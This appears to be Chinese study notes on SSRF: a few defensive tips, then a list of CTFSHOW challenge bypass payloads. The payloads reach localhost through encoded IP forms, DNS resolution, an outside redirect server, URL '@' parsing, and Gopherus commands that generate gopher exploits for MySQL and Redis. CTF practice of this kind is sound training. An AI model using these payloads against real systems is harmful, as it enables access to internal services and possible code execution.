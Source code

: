 ```
3,限制请求的端口为http常用的端口，比如，80,443,8080,8090。
4,黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。
5,禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。


#CTFSHOW SSRF 白盒
CTF 绕过
1、无过滤直接获取
url=http://127.0.0.1/flag.php

2-3、IP地址进制绕过
十六进制
  url=http://0x7F.0.0.1/flag.php

八进制
  url=http://0177.0.0.1/flag.php

10 进制整数格式
  url=http://2130706433/flag.php

16 进制整数格式，还是上面那个网站转换记得前缀0x
  url=http://0x7F000001/flag.php

还有一种特殊的省略模式
  127.0.0.1写成127.1

用CIDR绕过localhost
  url=http://127.127.127.127/flag.php

还有很多方式
  url=http://0/flag.php
  url=http://0.0.0.0/flag.php


4、域名解析IP绕过
test.xiaodi8.com -> 127.0.0.1
url=http://test.xiaodi8.com/flag.php

5、长度限制IP绕过
url=http://127.1/flag.php

6、长度限制IP绕过
url=http://0/flag.php

7、利用重定向解析绕过
<?php
header("Location:http://127.0.0.1/flag.php"); 
url=http://47.94.236.117/xx.php

8、匹配且不影响写法解析
url=http://ctf.@127.0.0.1/flag.php?show

9-10、利用gopher协议打服务
https://github.com/tarunkant/Gopherus
d:Python2.7\python.exe gopherus.py --exploit mysql
d:Python2.7\python.exe gopherus.py --exploit redis

```

